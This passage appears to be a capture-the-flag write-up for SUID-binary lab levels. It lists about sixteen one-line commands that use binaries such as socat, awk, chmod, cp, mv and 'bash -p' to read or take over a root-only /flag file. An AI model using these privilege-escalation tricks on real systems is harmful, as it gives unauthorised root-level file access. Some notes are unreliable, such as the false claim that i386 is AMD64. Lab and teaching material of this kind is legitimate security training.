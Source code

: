 ```
29. stdbuf
```
stdbuf -i 0 cat /flag
```
30. setarch: https://man7.org/linux/man-pages/man8/setarch.8.html
```
setarch i386 cat /flag (i386 is AMD64)
```
31. watch
```
watch -x cat /flag
```
32. socat: https://gtfobins.github.io/gtfobins/socat/
```
socat -u "file:/flag" -
```
33. whiptail
```
whiptail --textbox --scroltext "/flag" 10 50
```
34. awk 
```
awk '{print}' /flag
```
35. sed
```
sed "" /flag
```
36. ed
```
ed /flag
,p
```
37. chown
```
chown hacker /flag
```
38. chmod
```
chmod +rwx /flag
```
39. cp
```
cp /flag /home/hacker/stuff.txt
cat stuff.txt
```
40. mv : https://medium.com/workindia-in/the-dark-side-of-mv-command-3419c1bd619
```
mv /usr/bin/cat /usr/bin/mv
./babysuid_level40
```
41. perl
```
perl -pe {END} /flag
```
42. python
```
python /flag
```
43. ruby (partial)
```
ruby /flag
{incompleteFlag}
```
44. bash
```
bash -p (privileged mode)
cat /flag
```
```